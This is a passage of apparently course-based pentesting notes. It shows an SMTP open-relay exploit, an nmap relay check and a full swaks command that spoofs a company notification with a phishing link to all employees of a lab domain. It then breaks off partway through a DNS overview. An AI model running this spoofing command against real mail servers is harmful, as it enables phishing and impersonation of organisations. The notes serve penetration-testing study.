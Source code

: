 ### Exploit

- **Open Relay** -> Phishing or spoofing

  Messaging servers that are accidentally or intentionally configured as  open relays allow mail from any source to be transparently re-routed  through the open relay server.

  1. `nmap smtp-open-relay` tests if an open relay is possible.

  2. Use any mail client to connect to the mail server and send our email.

     ```bash
     swaks --from notifications@inlanefreight.com --to employees@inlanefreight.com --header 'Subject: Company Notification' --body 'Hi All, we want to hear from you! Please complete the following survey. http://mycustomphishinglink.com/' --server 10.10.11.213
     ```

## 53 - DNS

### Generalities:

- Purpose:

  - DNS servers translate domain names into IP addresses and thus control which server a user can reach via a  particular domain. 
  - It stores and outputs additional information about the services associated with a domain.

- Encryption:

  DNS is mainly unencrypted. By  default, IT security professionals apply `DNS over TLS` (`DoT`) or `DNS over HTTPS` (`DoH`) here. In addition, the network protocol `DNSCrypt` also encrypts the traffic between the computer and the name server.

- Types of DNS Servers:

  - *DNS root server*

    responsible for the top-level domains (`TLD`). As the last instance, they are only requested if the name server does not respond. 

  - *Authoritative name server*

    hold authority for a particular zone. They only answer queries from their area of responsibility,

  - *Non-authoritative name server*

    they collect information on specific DNS zones

  - *Caching server*

    cache information from other name servers for a specified period. The  authoritative name server determines the duration of this storage.

  - *Forwarding server*

    forward DNS queries to another DNS server.

  - *Resolver*

